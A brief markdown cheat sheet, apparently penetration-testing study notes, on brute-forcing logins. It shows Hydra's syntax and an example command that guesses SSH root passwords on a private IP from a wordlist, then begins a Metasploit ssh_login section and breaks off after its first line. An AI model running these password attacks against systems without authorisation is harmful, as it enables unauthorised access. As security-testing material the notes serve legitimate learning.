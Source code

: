 # Brute Forcing

> ## **Hydra**

> ### **Syntax**

- hydra -l [user] -P [Password List] [protocol]://[IP]:[Port] -t [# of Threads] -V

**Example**

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.57.134:22 -t 4 -V
```

------ 

> ## **Metasploit**

> ### **SSH**

`SSH Login`

    msf > use scanner/ssh/ssh_login